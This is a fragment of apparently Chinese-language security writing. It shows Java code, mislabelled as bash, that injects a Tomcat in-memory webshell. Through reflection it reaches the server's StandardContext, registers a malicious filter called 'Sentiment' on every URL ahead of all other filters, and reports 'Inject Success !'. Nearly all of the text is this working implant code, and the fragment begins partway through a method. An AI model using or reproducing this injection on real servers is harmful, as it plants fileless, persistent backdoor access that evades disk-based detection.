 ```bash
                //开始注入内存马
                ServletContext servletContext = servletRequest.getServletContext();
                Field context = servletContext.getClass().getDeclaredField("context");
                context.setAccessible(true);
                // ApplicationContext 为 ServletContext 的实现类
                ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
                Field context1 = applicationContext.getClass().getDeclaredField("context");
                context1.setAccessible(true);
                // 这样我们就获取到了 context
                StandardContext standardContext = (StandardContext) context1.get(applicationContext);

                //1、创建恶意filter类
                Filter filter = new FilterShell();

                //2、创建一个FilterDef 然后设置filterDef的名字，和类名，以及类
                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName("Sentiment");
                filterDef.setFilterClass(filter.getClass().getName());

                // 调用 addFilterDef 方法将 filterDef 添加到 filterDefs中
                standardContext.addFilterDef(filterDef);
                //3、将FilterDefs 添加到FilterConfig
                Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
                Configs.setAccessible(true);
                Map filterConfigs = (Map) Configs.get(standardContext);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
                filterConfigs.put("Sentiment",filterConfig);

                //4、创建一个filterMap
                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName("Sentiment");
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                //将自定义的filter放到最前边执行
                standardContext.addFilterMapBefore(filterMap);

                servletResponse.getWriter().write("Inject Success !");
            }

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InstantiationException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```